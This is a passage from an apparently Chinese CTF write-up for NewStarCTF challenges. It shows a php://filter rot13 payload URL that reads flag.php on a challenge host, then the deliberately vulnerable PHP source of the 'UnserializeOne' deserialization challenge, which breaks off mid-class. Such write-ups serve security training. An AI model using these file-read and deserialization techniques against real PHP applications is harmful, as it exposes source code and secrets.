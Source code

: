 ```
http://abcc9d59-f41c-49dc-818e-1fd0b9eb54a1.node4.buuoj.cn:81/?file=php://filter/NewStar/read=string.rot13/resource=flag.php

post: guess=1202031004
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031646775.png)

再 rot13 一下就是 flag 了

### UnserializeOne

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
#Something useful for you : https://zhuanlan.zhihu.com/p/377676274
class Start{
    public $name;
    protected $func;

    public function __destruct()
    {
        echo "Welcome to NewStarCTF, ".$this->name;
    }

    public function __isset($var)
    {
        ($this->func)();
    }
}

class Sec{
    private $obj;
    private $var;

    public function __toString()
    {
        $this->obj->check($this->var);
        return "CTFers";
    }

    public function __invoke()
    {
        echo file_get_contents('/flag');
    }
}

class Easy{
    public $cla;

    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
    }
}

class eeee{
    public $obj;

    public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
```
